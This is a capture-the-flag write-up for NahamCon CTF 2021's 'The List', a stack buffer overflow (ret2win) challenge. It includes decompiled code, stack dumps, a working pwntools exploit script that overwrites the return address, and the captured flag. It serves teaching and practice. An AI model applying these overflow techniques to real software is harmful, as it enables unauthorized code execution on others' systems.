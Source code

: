 # NahamCon CTF 2021

## The List [easy]

> Author: @M_alpha#3534
>
> We need you to compile a list of users for the event. Here's a program you can use to help.
>
> [the_list](the_list)

Tags: _pwn_ _x86-64_ _bof_ _rop_ _ret2win_


## Summary

Looks like heap, _but do not be fooled_, it's just basic _bof_ _ret2win_.

From this menu:

```
1. Print users
2. Add user
3. Delete user
4. Change user's name
5. Exit
```

Just keep adding users until _bof_.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE and no canary, ripe for _rop_ and _bof_.

### Decompile with Ghidra

```c
void add_user(long param_1)
{
  size_t sVar1;
  int local_1c;
  
  local_1c = 0;
  while (*(char *)(param_1 + (long)local_1c * 0x20) != '\0') {
    local_1c = local_1c + 1;
  }
  printf("Enter the user\'s name: ");
  fgets((char *)((long)local_1c * 0x20 + param_1),0x20,stdin);
  sVar1 = strcspn((char *)(param_1 + (long)local_1c * 0x20),"\r\n");
  *(undefined *)((long)local_1c * 0x20 + param_1 + sVar1) = 0;
  puts("User added!");
  putchar(10);
  return;
}
```

`add_user` does not limit the number of users; that, plus the lack of a canary in `main` is the vulnerability.

> When abusing `add_user`, note that it counts the users by checking if the first character of _name_  is _not_ `\0`, this will mess with your math a bit.


```c
undefined8 main(void)
{
  size_t sVar1;
  undefined local_248 [524];
  undefined4 local_3c;
  char local_38 [47];
  char local_9;
  
  local_9 = '\x01';
  memset(local_248,0,0x200);
  printf("Enter your name: ");
  fgets(local_38,0x20,stdin);
  sVar1 = strcspn(local_38,"\r\n");
  local_38[sVar1] = '\0';
  printf("Welcome %s!\n",local_38);
  putchar(10);
  while (local_9 != '\0') {
    menu();
    __isoc99_scanf(&%d,&local_3c);
    getchar();
    switch(local_3c) {
    default:
      puts("Invalid choice!");
      break;
    case 1:
      print_users((long)local_248);
      break;
    case 2:
      add_user((long)local_248);
      break;
    case 3:
      delete_user((long)local_248);
      break;
    case 4:
      change_uname((long)local_248);
      break;
    case 5:
      local_9 = '\0';
    }
    local_3c = 0;
  }
  puts("Goodbye!");
  return 0;
}
```

**WARNING:** While overflowing the buffer `local_248`, `local_9` must remain `\x01` or you may suffer from premature ejection before you are able to finish off your exploit.

Right, so call `add_user` `0x248 // 0x20` (18) times to put us `0x248 - 0x20 * (0x248 // 0x20)` (8) bytes from the return address, _right?_

Well..., some garbage is in the way:


```
0x00007ffda532aa20│+0x01e0: 0x0000000000000041 ("A"?)
0x00007ffda532aa28│+0x01e8: 0x0000000000000000
0x00007ffda532aa30│+0x01f0: 0x0000000000000000
0x00007ffda532aa38│+0x01f8: 0x0000000000000000
0x00007ffda532aa40│+0x0200: 0x0000000000000002
0x00007ffda532aa48│+0x0208: 0x0000000200401a5d
0x00007ffda532aa50│+0x0210: 0x0000000068616c62 ("blah"?)
0x00007ffda532aa58│+0x0218: 0x0000000000401a10  →  <__libc_csu_init+0> endbr64
0x00007ffda532aa60│+0x0220: 0x0000000000000041 ("A"?)
0x00007ffda532aa68│+0x0228: 0x0000000000401250  →  <_start+0> endbr64
0x00007ffda532aa70│+0x0230: 0x00007ffda532ab70  →  0x0000000000000001
0x00007ffda532aa78│+0x0238: 0x0100000000000000
0x00007ffda532aa80│+0x0240: 0x0000000000000000	 ← $rbp
0x00007ffda532aa88│+0x0248: 0x00007f91ec9270b3  →  <__libc_start_main+243> mov edi, eax
```

Above is the stack after writing _17_ users with the name `A`.  Look at line `+0x0200`, that `2` is uninitialized stack trash; `add_user` assumes that if not `\0` then it must be a user.  So, to get within striking distance of the return address we only need to add _17_ users since `add_user` skipped over _the trash_.

> We're basically in uninitialized stack garbage at this point, we're also lucky that line `+0x0220` was `\0`.

Line `+0x0238` is `local_9`; when adding the 17th user (18th actually since 17th was free curtesy of _uninitialized stack garbage_), it is important to keep the name short to avoid overwriting `local_9`--null that out, and, well, you cannot add your final user, your attack.

> NOTE: _uninitialized stack garbage_ is _not_ random.  You can frequently count on it to bail you out.

The next user added will overwrite `$rdp`, followed by the return address. 

```
void give_flag(void)
{
  stat local_a8;
  char *local_18;
  int local_c;
  
  local_c = open("flag.txt",0);
  if (local_c < 0) {
    puts("Could not open the flag.");
    exit(1);
  }
  fstat(local_c,&local_a8);
  local_18 = (char *)malloc(local_a8.st_size);
  read(local_c,local_18,local_a8.st_size);
  puts(local_18);
  free(local_18);
  close(local_c);
  exit(0);
}
```

There is a _win_ function, so just append that after 8 bytes for your last user.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./the_list')

if args.REMOTE:
	p = remote('challenge.nahamcon.com', 31980)
else:
	p = process(binary.path)
	libc = binary.libc

p.sendlineafter('name: ','blah')

for i in range(0x248 // 0x20 - 1):
	log.info('adding user: ' + str(i+1))
	p.sendlineafter('> ','2')
	p.sendlineafter('name: ',b'A')

payload  = b''
payload += 8 * b'A'
payload += p64(binary.sym.give_flag)

p.sendlineafter('> ','2')
p.sendlineafter('name: ',payload)
p.sendlineafter('> ','5')
p.stream()
p.close()
```


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/nahamconctf2021/the_list/the_list'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challenge.nahamcon.com on port 31980: Done
[*] adding user: 1
[*] adding user: 2
[*] adding user: 3
[*] adding user: 4
[*] adding user: 5
[*] adding user: 6
[*] adding user: 7
[*] adding user: 8
[*] adding user: 9
[*] adding user: 10
[*] adding user: 11
[*] adding user: 12
[*] adding user: 13
[*] adding user: 14
[*] adding user: 15
[*] adding user: 16
[*] adding user: 17
Goodbye!
flag{0eb219803dbfcda8620dae0772ae2d72}
```

